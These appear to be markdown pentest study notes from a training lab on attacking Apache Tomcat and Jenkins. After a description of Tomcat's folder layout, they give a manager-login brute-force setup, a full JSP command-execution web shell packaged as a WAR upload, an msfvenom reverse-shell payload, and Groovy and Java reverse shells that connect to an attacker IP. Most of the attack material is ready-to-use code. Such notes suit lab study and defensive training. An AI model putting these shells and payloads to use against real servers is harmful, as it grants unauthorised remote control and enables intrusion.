



# Tomcat Folder Structure

```
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib
├── logs
├── temp
├── webapps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work
    └── Catalina
```

The `bin` folder stores scripts and binaries needed to start and run a Tomcat server. 

The `conf` folder stores various configuration files used by Tomcat. 

The `tomcat-users.xml` file stores user credentials and their assigned roles. 

The `lib` folder holds the various JAR files needed for the correct functioning of Tomcat. 

The `logs` and `temp` folders store temporary log files. 

The `webapps` folder is the default webroot of Tomcat and hosts all the applications. 

The `work` folder acts as a cache and is used to store data during runtime.

Each folder inside `webapps` is expected to have the following structure.

```bash
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp
    |   └── admin.jsp
    └── web.xml
    └── lib
    |    └── jdbc_drivers.jar
    └── classes
        └── AdminServlet.class
```

# **Tomcat - Discovery & Enumeration**

## Requesting an invalid page



## Detecting Tomcat version using /docs

```bash
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 

<html lang="en"><head><META http-equiv="Content-Type" content="text/html; charset=UTF-8"><link href="./images/docs-stylesheet.css" rel="stylesheet" type="text/css"><title>Apache Tomcat 9 (9.0.30) - Documentation Index</title><meta name="author" 
```

# **Attacking Tomcat**

if we can access the `/manager` or `/host-manager` endpoints, we can likely achieve remote code execution on the Tomcat server.

## **Tomcat Manager - Login Brute Force**

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

## **Tomcat Manager - WAR File Upload**

Many Tomcat installations provide a GUI interface to manage the application. This interface is available at `/manager/html` by default, which only users assigned the `manager-gui` role are allowed to access

## Creating WAR File

### JSP Web Shell

```java
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY><FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre><%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr);
                disr = dis.readLine();
                }
        }
%>
</pre>
</BODY></HTML>
```

Save it as <FILENAME>.jsp and then execute:

```bash
zip -r backup.war cmd.jsp 
```

Click on `Browse` to select the .war file and then click on `Deploy`.



This file is uploaded to the manager GUI, after which the `/backup` application will be added to the table



### Executing Commands

```bash
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```

### Cleaning Up

To clean up after ourselves, we can go back to the main Tomcat Manager page and click the `Undeploy` button next to the `backups` application after, of course, noting down the file and upload location for our report, which in our example is `/opt/tomcat/apache-tomcat-10.0.10/webapps`. If we do an `ls` on that directory from our web shell, we'll see the uploaded `backup.war` file and the `backup` directory containing the `cmd.jsp` script and `META-INF` created after the application deploys. Clicking on `Undeploy` will typically remove the uploaded WAR archive and the directory associated with the application.

### Generate a malicious WAR File Using MSFVenom - Optional

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```

[GitHub - SecurityRiskAdvisors/cmd.jsp: A super small jsp webshell with file upload capabilities.](https://github.com/SecurityRiskAdvisors/cmd.jsp)

# **Jenkins - Attacking Jenkins**

## **Script Console**

```bash
http://jenkins.inlanefreight.local:8000/script
```
## Groovy Reverse Shell

### Linux

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Windows

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Java reverse shell to gain command execution on a Windows host, swapping out `localhost` and the port for our IP address and listener port.
